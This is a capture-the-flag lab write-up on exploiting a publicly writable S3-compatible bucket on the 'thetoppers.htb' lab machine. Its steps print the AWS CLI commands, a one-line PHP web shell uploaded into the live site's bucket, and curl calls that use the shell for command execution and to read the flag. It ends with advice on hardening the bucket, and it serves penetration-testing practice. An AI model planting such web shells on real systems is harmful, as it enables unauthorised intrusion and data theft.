


# Exploitation — Three

## 1. Set up the AWS CLI

```bash
aws configure
```

Dummy values accepted for Access Key / Secret Key — what matters for this bucket isn't a valid AWS identity, it's whether the bucket's policy allows anonymous/public actions.

## 2. Find the right endpoint

Real AWS endpoints (`s3.amazonaws.com`, `--no-sign-request`) returned `AccessDenied` for both listing and uploading. The bucket isn't reachable through public AWS infrastructure in this lab — it's served through the lab's own local S3-compatible endpoint at `s3.thetoppers.htb` (already mapped in `/etc/hosts` during recon).

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

This listed the bucket contents successfully — confirming the bucket is publicly **readable** through this endpoint.



## 3. Test for public write access

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/shell.php
```

```
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Upload succeeded — the bucket also allows anonymous **writes** (`PutObject`). Since this bucket *is* the live website's content, the shell became reachable immediately, with no separate deployment step.



## 4. Confirm code execution

```bash
curl "http://thetoppers.htb/shell.php?cmd=id"
```

Returned a valid shell user — confirmed RCE.


## 5. Capture the flag

```bash
curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"
```

Flag retrieved directly — no privilege escalation step was necessary; the web server process already had read access to it.


## Root cause

A public S3 bucket configured with anonymous `GetObject`/`ListBucket`/`PutObject` permissions, used directly as the backing storage for a live PHP-capable website. Anyone who could reach the bucket could overwrite site content with executable code. The fix is standard AWS hardening: block public access at the bucket level, and if public read is genuinely needed (e.g., a static asset bucket), scope the bucket policy to `GetObject` only — never `PutObject` — for anonymous principals.
